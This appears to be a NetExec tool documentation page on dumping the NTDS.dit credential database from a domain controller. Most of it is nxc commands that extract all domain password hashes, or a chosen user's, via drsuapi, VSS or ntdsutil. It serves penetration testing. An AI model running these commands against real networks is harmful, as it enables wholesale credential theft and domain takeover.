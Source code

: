 # Dump NTDS.dit

### Dump the NTDS.dit from target DC using methods from secretsdump.py

{% hint style="danger" %}
Requires Domain Admin or Local Admin Priviledges on target Domain Controller
{% endhint %}

```bash
2 methods are available:   
(default) 	drsuapi -  Uses drsuapi RPC interface create a handle, trigger replication, and combined with   
						additional drsuapi calls to convert the resultant linked-lists into readable format  
			vss - Uses the Volume Shadow copy Service  
```

### Dump all users from the NTDS.dit

```bash
nxc smb 192.168.1.100 -u UserName -p 'PASSWORDHERE' --ntds
nxc smb 192.168.1.100 -u UserName -p 'PASSWORDHERE' --ntds --enabled
nxc smb 192.168.1.100 -u UserName -p 'PASSWORDHERE' --ntds vss
```

{% hint style="info" %}
You can also DCSYNC with the computer account of the DC
{% endhint %}

### Dump a specific user only

```bash
nxc smb 192.168.1.100 -u UserName -p 'PASSWORDHERE' --ntds --user Administrator
```

{% hint style="warning" %}
In environments with multiple domains (e.g., parent/child), make sure to specify the full NetBIOS format when using --user, such as: **--user NETBIOS/Administrator**. This avoids ambiguity when the same username exists in different domains.
{% endhint %}

There is also the ntdsutil module that will use ntdsutil to dump NTDS.dit and SYSTEM hive and parse them locally with secretsdump.py&#x20;

```bash
nxc smb 192.168.1.100 -u UserName -p 'PASSWORDHERE' -M ntdsutil
```

